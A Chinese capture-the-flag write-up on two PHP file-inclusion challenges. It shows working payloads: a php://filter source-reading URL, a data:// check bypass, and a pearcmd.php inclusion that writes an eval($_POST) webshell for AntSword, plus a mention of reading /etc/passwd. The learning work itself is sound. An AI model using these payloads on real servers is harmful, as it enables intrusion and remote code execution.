 ```yaml
---
title: ctf中的奇淫技巧-利用pearcmd进行LFI漏洞复现
date: 2022-1-12 16:19:21
tags:
---
```

第一题的write up如下:
先放flag

flag{H4v3_fvn_1NcIudE!}
第一题是比较基础的一个题
首先F12查看到html页面信息中包含了提示信息
简单的一个文件包含漏洞，查看url时候发现前面是filename=.....
遂猜测存在文件上传漏洞
于是构建payload如下：
```
http://39.106.13.193:8010/?filename=include%2Fflag.php&submit=提交查询
```

没有得到flag
于是想到了php伪协议
php伪协议有关知识点如下：
```
https://www.cnblogs.com/wjrblogs/p/12285202.html
```

参考这篇blog
PHP://
1. php://filter
作用：
读取源代码并进行base64编码输出
示例：
```
http://127.0.0.1/cmd.php?cmd=php://filter/read=convert.base64-encode/resource=[文件名]（针对php文件需要base64编码）
```

参数说明：
resource=<要过滤的数据流> 这个参数是必须的。它指定了你要筛选过滤的数据流
read=<读链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表> 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
构建最终的payload得到base64编码下的信息，进行解码后得到flag
```
http://39.106.13.193:8010/?filename=php://filter/read=convert.base64-encode/resource=include%2Fflag.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

第二题的write up：
首先flag是flag{1ncLud3_1s_1nt3R3sTiNg}
这个题有点历经千辛万苦了，了解到了文件的各种知识面。
1.check绕过
首先这个题的解题点在php自身的文件里面一个新的可以利用的LFI，这里的话参照p神的一篇文章是
Docker下php的裸文件绕过，blog链接如下
```
 https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html 
 ```

第一个地方就是绕过check变量的检测，这里涉及到了一个函数file_get_contents函数，该函数和file() 一样,只除了 file_get_contents() 把文件读入一个字符串 ，需要让他等于“LFI”这个字符串，这里就需要用到伪协议里面data了，关键知识点如下：
data://
#
作用：
 自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到base64编码传输

上面我发的blog里面有非常详细的关于php伪协议的知识。建议大家看一遍。我学到了很多通过这个blog，确实是我觉得最好的。
构建的payload如下：check=data://check/plain;base64,TEZJ（这里面的TEZJ是base64编码下的”LFI“字符串）。
这里你判断有没有成功绕过的话可以判断有没有执行die函数，如果没有绕过会有一个die"no"执行。

2.Include配合php中的pearcmd
include "a",这里了。
一开始我的想法是通过input://然后传入我想执行的代码来进行cat flag但发现我太天真了.....
首先需要了解一个关于docker下PHP裸文件本地包含漏洞
链接如下
```
https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html
```

了解完相关知识后，我用的方法是不出网改本地配置的方法，原本想试一试通过本地服务器映射一个远程包含文件漏洞，但是配置出了点问题，所以配置了一下本地的。
这里的话对这个漏洞大致介绍一点：（附上以下blog，解释的十分的清晰）
```
https://blog.csdn.net/rfrder/article/details/121042290
```

补充一个知识点： url传参传入php文件是不行的，因为在传入的时候会给你编码导致无法传入，所以用burp改包的方法传入。
这里的话建议和我一样刚入门的师傅可以看一看如何利用burp进行改包发送。熟悉以下burp这个工具的使用，拦截后ctrl+R可以快速发给repeater。
```
https://blog.csdn.net/jinzhichaoshuiping/article/details/47324955
```

最后的payload如下:（部分有微小改动，便于大家思考）
```
?check=data://check/plain;base64,TEZJ&file=....../pearcmd.php&+-c+/tmp/***.php+-d+man_dir=<?eval($_POST[*]);?>+-s+
```

这里的话pearcmd路径并不是都一样的 有些环境下可能在/share里。
成功传入了我自己的马（在这里有一个方法可以测试是否传入成功，可以直接访问传入路径的传入文件，如果显示出了部分编码代表上传成功，无提示则上传失败）
然后通过antsword进行连接，经典一句话木马，连接成功。在目录下找到了flag
antsword下载地址附上
```
https://github.com/AntSwordProject/AntSword-Loader
```

该题也可以通过eval[_get[]]进行传马，因为本人水平有限，写入get失败，希望大佬指点一下利用get写入一句话shell后如何操作。具体思路师傅指点是可以利用里面的值进行执行代码操作。

最后补充一些做题时候意外发现的小技巧吧。如果靶机非动态的话利用伪协议可以阅读到一些你想知道的内容（如果有的话
通过这两个题学到了 远程文件上传（通过远程服务器包含shell），pearcmd LFI漏洞，顺便学习了如何用docker复现环境，当一些关键点卡住的时候可以手动本地搭建环境学习一下。
还有常见的一些目录日志文件，来访问服务器信息比如../../../etc/passwd等，暂时找不到那个博客了，有时间再找一找放上来。

顺便想问一下各位师傅，远程文件包含漏洞如果自己有服务器的话80端口用不了可以通过别的端口来进行包含上传shell么，今天没尝试出来
没错的话应该是第一次拿一血哈哈哈 挺开心
